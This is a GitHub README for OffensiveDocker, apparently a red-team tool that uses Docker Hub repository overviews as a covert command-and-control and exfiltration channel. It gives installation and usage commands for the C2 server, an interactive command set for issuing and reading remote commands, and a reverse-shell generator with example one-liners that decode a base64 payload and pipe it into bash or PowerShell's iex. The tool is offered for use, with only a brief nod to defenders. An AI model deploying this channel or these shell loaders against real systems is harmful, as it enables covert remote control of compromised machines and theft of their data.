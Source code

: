 # OffensiveDocker by @0xbugatti
OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.
As Redteamer :Exfiltrate Data Over hub.docker.com 
As Blue Teamer :From Tooday Dont Trust hub.docker.com 
![odloogo](imgs/odlogo.png)

# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers

# Installation 
```bash
git clone https://github.com/0xBugatti/OffensiveDocker.git
cd OffensiveDocker/
pip install -r requirements.txt
python C2-server.py --user <username> --new --repo <repo> --token <docker_hub_token>

```
# Usage


## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**



```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs
![image](imgs/repogen.jpg)
![image](imgs/win-revshell.jpg)
![image](imgs/linux-revshell.jpg)
![image](imgs/linux.png)
![image](imgs/AD-Win.png)
c2thedocker.png
## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**

# 🚀 Follow Me  

Stay connected and follow me on my social platforms!  

[![YouTube](https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)](https://www.youtube.com/@0xbugatti)  
[![X (Twitter)](https://img.shields.io/badge/X-000000?style=for-the-badge&logo=twitter&logoColor=white)](https://x.com/0xbugatti)  
[![Medium](https://img.shields.io/badge/Medium-000000?style=for-the-badge&logo=medium&logoColor=white)](https://medium.com/@0xbugatti)  
[![Facebook](https://img.shields.io/badge/Facebook-1877F2?style=for-the-badge&logo=facebook&logoColor=white)](https://www.facebook.com/0xbugatti)  


